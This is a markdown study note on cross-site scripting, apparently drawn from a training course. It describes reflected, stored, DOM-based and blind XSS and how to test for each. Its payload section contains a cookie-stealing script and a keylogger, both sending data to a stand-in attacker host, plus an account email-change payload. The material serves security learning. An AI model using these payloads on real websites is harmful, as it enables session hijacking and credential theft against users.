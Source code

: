 
# Payloads
## What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

<details>
  <summary>Intentions</summary>
  
## Intentions
Here are some examples of XSS intentions.

### Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


```javascript
<script>alert('XSS');</script>
```

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.

</details>

# Types of XSS Attacks

```mermaid
graph TD
  XSS --> Reflected_XSS
  XSS --> Stored_XSS
  XSS --> DOM_Based_XSS
  XSS --> Blind_XSS
```

## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

### How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

## Stored XSS
As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

### How to test for Stored XSS

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

- Comments on a blog
- User profile information
- Website Listings

## DOM Based XSS
### What is the DOM?
DOM stands for _Document Object Model_ and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content.

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/2b244ec8-87f4-4afb-88a0-17e8f55b2cc1)

### Example Scenario

The website's JavaScript gets the contents from the window.location.hash parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

### How to test for Dom Based XSS:

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.

## Blind XSS
Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

### Example Scenario:

A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

### Potential Impact:

Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

### How to test for Blind XSS:

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

### Tool for Blind XSS
[XSSHunter-Express](https://github.com/PranjalBasak/xsshunter-express)
